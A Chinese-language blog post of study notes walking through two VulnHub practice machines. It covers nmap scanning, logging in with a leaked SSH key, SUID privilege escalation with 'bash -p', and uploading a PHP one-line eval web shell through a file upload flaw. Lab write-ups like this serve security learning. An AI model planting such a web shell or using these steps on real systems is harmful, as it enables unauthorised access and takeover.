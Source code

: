 ```yaml
---

title: vulnhub study

date: 2025-04-08 10:00:00 +0800

categories: NetworkSecurity

tags: [network security]

pin: true

---
```

# vulnhub刷题笔记

### oscp

靶机：下载后直接用vmware打开

![image-20250409191810666](https://cdn.jsdelivr.net/gh/Beam-boop/cloudimages/imagesimage-20250409191810666.png)

攻击机：kali机

#### 1. 获取信息

**扫网段**：`nmap -sP 192.168.157.0/24`，用自带的nmap扫描网段信息，-sP相当于发送ICMP协议，用于测试该网段下主机、路由器是否可达。

![image-20250409192307074](https://cdn.jsdelivr.net/gh/Beam-boop/cloudimages/imagesimage-20250409192307074.png)

**扫端口**：`nmap -A -sV -T4 -p1-65535 IP地址`，-A是全面扫描，-sV是返回版本号，-T4是扫描速度（0-5）

![image-20250409205231695](https://cdn.jsdelivr.net/gh/Beam-boop/cloudimages/imagesimage-20250409205231695.png)  

可以看到，开放了22、80、33060端口

**扫目录**：开放了80端口，我们可以看出开启了http服务，那可以用dirb、dirsearch、御剑去扫目录，值得注意的是**dirb需要加上http**，可以看到有robots.txt

![image-20250409205602838](C:/Users/Beamice/AppData/Roaming/Typora/typora-user-images/image-20250409205602838.png)

**网页信息收集：**打开txt后发现有隐藏txt文件，打开后其实是base64编码后的内容

![image-20250409210247613](https://cdn.jsdelivr.net/gh/Beam-boop/cloudimages/imagesimage-20250409210247613.png)

![image-20250409205713601](https://cdn.jsdelivr.net/gh/Beam-boop/cloudimages/imagesimage-20250409205713601.png)

![image-20250409205816980](https://cdn.jsdelivr.net/gh/Beam-boop/cloudimages/imagesimage-20250409205816980.png)

#### 2.漏洞利用

通过base64解码，我们可以发现其实是openssh的秘钥，那么在结合网页内容的提示，我们可以用ssh远程登录web服务器，将秘钥写成文件，命名为openssh/id_rsa，vim直接新建文件，在这里我发现vim的全部删除指令，**全部删除：按esc后，然后dG** [vim的快捷键参考](https://blog.csdn.net/ztf312/article/details/83025297)

![image-20250409205855401](https://cdn.jsdelivr.net/gh/Beam-boop/cloudimages/imagesimage-20250409205855401.png)

然后我们用如下命令连接ssh：`ssh -i openssh oscp@192.163.157.130 `进行远程登录 ，其实permission deny了，看了一下writeup，主要是权限不对，得chmod 600至于为什么不是很清楚啊

![image-20250409210959106](https://cdn.jsdelivr.net/gh/Beam-boop/cloudimages/imagesimage-20250409210959106.png)

#### 3.提权

进入成功后，id/whoami/pwd，查看后发现只是普通用户，是无法进入/root目录下找到flag，那么应该怎么办？之前面经背过suid提权，感觉是可以尝试。suid提权是程序如果有suid权限，那么用户在调用程序的时候，实际程序的进程属主不是用户，而是程序文件的属主，包括bash、awk、nmap、find、more、less[suid提权详解](https://www.freebuf.com/articles/web/272617.html)

用如下命令可以查看系统上运行的所有SUID可执行文件

`find / -user root -perm -4000 -print 2>/dev/null`

![image-20250409211835412](https://cdn.jsdelivr.net/gh/Beam-boop/cloudimages/imagesimage-20250409211835412.png)

有bash，那么可以bash -p打开一个bash shell，结果就是成功提权啦~

![image-20250409211643633](https://cdn.jsdelivr.net/gh/Beam-boop/cloudimages/imagesimage-20250409211643633.png)

### JIS

有五个flag可以找

#### 1. 准备工作

其实一开始打开vmware后是没有IP的，这个需要我们来进行网络配置。vmware的配置如下：

靶机的账号口令为： technawi/3vilH@ksor
vmware打开虚拟机后登录然后更改root用户的密码`sudo passwd root` ,然后输入密码3vilH@ksor，根据提示重置root用户的密码，进入超级用户后，执行下面命令

```bash
ifconfig ens33 up //启用网卡，然后再通过 ifconfig -a 看，发现 没有IP

dhclient ens33  // 分配IP
```

#### 2.信息收集

**扫网段：**主机的IP为192.168.157.131，所在网段为192.168.157.0/24,先用nmap扫一下是否能扫到该主机

`nmap -sP 192.168.157.0/24`

![image-20250410152153342](https://cdn.jsdelivr.net/gh/Beam-boop/cloudimages/imagesimage-20250410152153342.png)

**扫端口：**`nmap -A -sV -T4 -p1-65535 192.168.157.131`，可以看出80端口的http服务是开着的

#### 3.漏洞利用

**Flag one：**有一个flag的目录，直接访问flag，拿到第一个flag

![image-20250410152415871](https://cdn.jsdelivr.net/gh/Beam-boop/cloudimages/imagesimage-20250410152415871.png)

![image-20250410152537484](https://cdn.jsdelivr.net/gh/Beam-boop/cloudimages/imagesimage-20250410152537484.png)

**Flag Two**：可以看到还有一个admin_area，进行访问，查看网页源代码，可以看到第二个flag，以及账号密码：admin；3v1l_H@ck3r

![image-20250410152730229](https://cdn.jsdelivr.net/gh/Beam-boop/cloudimages/imagesimage-20250410152730229.png)

**Flag Three**：访问192.168.157.131，跳转到登录界面，尝试用刚才那个账号密码，没想到可以！

![image-20250410153218058](https://cdn.jsdelivr.net/gh/Beam-boop/cloudimages/imagesimage-20250410153218058.png)

这个就是典型的文件上传漏洞，可以尝试一句话木马上传，但这里需要注意的是，文件的路径在哪里呢？点击upload file没有回显路径，那么应该怎么办呢？刚好刚才在信息收集部分，其实可以看到扫出来了一个目录uploaded_files，可以尝试一下

编写一句话木马，上传到服务器

`<?php @eval($_POST['cmd'])?>`，蚁剑连接登录上去了，在`/var/www/html/hint.txt`目录下看到了第三个flag![image-20250410161023306](https://cdn.jsdelivr.net/gh/Beam-boop/cloudimages/imagesimage-20250410161023306.png)

**Flag Four**：上文有了提示，通过用户technawi去读取flag文件

`find /-user 'technawi' 2>/dev/null`，顺利找到第四个flag![image-20250410161617494](https://cdn.jsdelivr.net/gh/Beam-boop/cloudimages/imagesimage-20250410161617494.png)

![image-20250410161708324](https://cdn.jsdelivr.net/gh/Beam-boop/cloudimages/imagesimage-20250410161708324.png)

**Flag Five：**第四个flag其实是有意引导我们去搜索，credentials的意思是证书，那么其实可以联想到用ssh去连接主机，再去看flag.txt(结合flag3的提示)，那么我们可以尝试，成功拿到第五个flag

![image-20250410162625001](https://cdn.jsdelivr.net/gh/Beam-boop/cloudimages/imagesimage-20250410162625001.png)

总结：其实我们可以看到通过文件上传去访问的是拿不到flag.txt，可能是因为权限不够，所以用ssh连接上去后flag.txt的内容就一览无余啦~

